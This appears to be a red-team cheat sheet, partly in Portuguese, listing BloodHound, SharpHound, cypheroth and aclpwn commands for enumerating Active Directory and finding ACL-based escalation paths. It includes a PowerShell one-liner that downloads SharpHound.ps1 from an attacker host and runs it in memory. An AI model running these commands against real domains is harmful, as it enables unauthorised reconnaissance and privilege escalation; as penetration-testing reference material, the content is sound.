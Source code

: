 # bloodhound

% bloodhound, Active directory enumeration


## inicia o servidor neo4j
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
neo4j start
```

## bloodhound inicia o IHM
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## bloodhound - coleta dados
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## bloodhound - coleta dados (modo alternativo)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## sharphound - coleta dados do bloodhound
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## sharphound - coleta dados do bloodhound, faz download e executa
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - iniciar
#plateform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - do computador ao dominio - simulação
#plateform/linux #target/local #cat/RECON 

Aclpwn.py é uma ferramenta que interage com o BloodHound para identificar e exploitar caminhos para escalação de privilégios baseando-se em ACLs
https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```


